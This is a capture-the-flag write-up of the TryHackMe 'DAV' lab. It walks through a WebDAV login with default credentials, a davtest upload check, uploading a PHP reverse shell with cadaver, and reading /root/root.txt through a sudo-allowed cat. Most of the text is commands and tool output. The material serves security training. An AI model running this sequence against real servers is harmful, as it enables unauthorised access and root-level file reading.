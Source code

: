 ```yaml
---
layout: post
title: DAV Writeup
date: 2020-09-16 00:00:00 +5:30
categories: [TryHackMe, Easy]
tags: [tryhackme, owasp10, sudo] # add tag
---
```


## Description

The Following Post is writeup of DAV room of tryhackme <https://tryhackme.com/room/bsidesgtdav>

|Machine|Detail
|:---|:--
|OS | Linux
|Rating | Easy
|Creator | stuxnet

## Summary

The machine have single port open 80. It got default page after dirbust we can see Webdav with default creds.
We can upload and execute php shell. www-data can execute cat as sudo so we can see root.txt.

## Walkthrough

### Enumeration

```bash
┌─[argenestel@parrot]─[~/Desktop/tryhackme/DAV]
└──╼ $nmap -sC -sV 10.10.229.29
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-17 15:20 IST
Nmap scan report for 10.10.229.29
Host is up (0.21s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.23 seconds
```

so from nmap scan we got one port only
Let's see what we can do.

#### port 80

![Webpage](/assets/img/dav/defaultapache.png)

![ffuf](/assets/img/dav/ffufoutput.png)

so we got webdav dir but it requires creds we don't have username  <br />
we can try default creds of webdav (user wampp and password xampp) <br />
okay we got directory listing let's check how we can exploit webdav <br />
so we can upload files using cadaver in webdav<br />
So let's run davtest to see what we can upload

![creds](/assets/img/dav/defaultcreds.png)

```bash
┌─[argenestel@parrot]─[~/Desktop/tryhackme/DAV]
└──╼ $davtest -url http://10.10.229.29/webdav/ -auth wampp:xampp
********************************************************
 Testing DAV connection
OPEN            SUCCEED:                http://10.10.229.29/webdav
********************************************************
NOTE    Random string for this session: s1y0c7
********************************************************
 Creating directory
MKCOL           SUCCEED:                Created http://10.10.229.29/webdav/DavTestDir_s1y0c7
********************************************************
 Sending test files
PUT     jsp     SUCCEED:        http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.jsp
PUT     asp     SUCCEED:        http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.asp
PUT     cgi     SUCCEED:        http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.cgi
PUT     jhtml   SUCCEED:        http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.jhtml
PUT     php     SUCCEED:        http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.php
PUT     shtml   SUCCEED:        http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.shtml
PUT     cfm     SUCCEED:        http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.cfm
PUT     pl      SUCCEED:        http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.pl
PUT     html    SUCCEED:        http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.html
PUT     aspx    SUCCEED:        http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.aspx
PUT     txt     SUCCEED:        http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.txt
********************************************************
 Checking for test file execution
EXEC    jsp     FAIL
EXEC    asp     FAIL
EXEC    cgi     FAIL
EXEC    jhtml   FAIL
EXEC    php     SUCCEED:        http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.php
EXEC    shtml   FAIL
EXEC    cfm     FAIL
EXEC    pl      FAIL
EXEC    html    SUCCEED:        http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.html
EXEC    aspx    FAIL
EXEC    txt     SUCCEED:        http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.txt

********************************************************
/usr/bin/davtest Summary:
Created: http://10.10.229.29/webdav/DavTestDir_s1y0c7
PUT File: http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.jsp
PUT File: http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.asp
PUT File: http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.cgi
PUT File: http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.jhtml
PUT File: http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.php
PUT File: http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.shtml
PUT File: http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.cfm
PUT File: http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.pl
PUT File: http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.html
PUT File: http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.aspx
PUT File: http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.txt
Executes: http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.php
Executes: http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.html
Executes: http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.txt
```

Php is uploadable and executable.

#### Exploitation

so we are now going to upload a reverse shell.

```bash
┌─[✗]─[argenestel@parrot]─[~/Desktop/tryhackme/DAV]
└──╼ $cadaver http://10.10.229.29/webdav/
Authentication required for webdav on server `10.10.229.29':
Username: xampp
Password:
Authentication required for webdav on server `10.10.229.29':
Username: wampp
Password:
dav:/webdav/> help
Available commands:
 ls         cd         pwd        put        get        mget       mput      
 edit       less       mkcol      cat        delete     rmcol      copy      
 move       lock       unlock     discover   steal      showlocks  version   
 checkin    checkout   uncheckout history    label      propnames  chexec    
 propget    propdel    propset    search     set        open       close     
 echo       quit       unset      lcd        lls        lpwd       logout    
 help       describe   about     
Aliases: rm=delete, mkdir=mkcol, mv=move, cp=copy, more=less, quit=exit=bye
dav:/webdav/> put phpshell.php
Uploading phpshell.php to `/webdav/phpshell.php':
Progress: [=============================>] 100.0% of 5494 bytes succeeded.
dav:/webdav/>
```

uploaded php shell let's execute it

we have pwncat listening.

#### PrivEsc

```bash
sudo -l

[+] Testing 'sudo -l' without password & /etc/sudoers
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#commands-with-sudo-and-suid-commands
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat

sudo cat /root/root.txt
```
Hmmm we can read root.txt using sudo
and we get the root file.

### Reviews

Easy Machine everything is straight forward. I stuck at webdav login but turns out to be default.

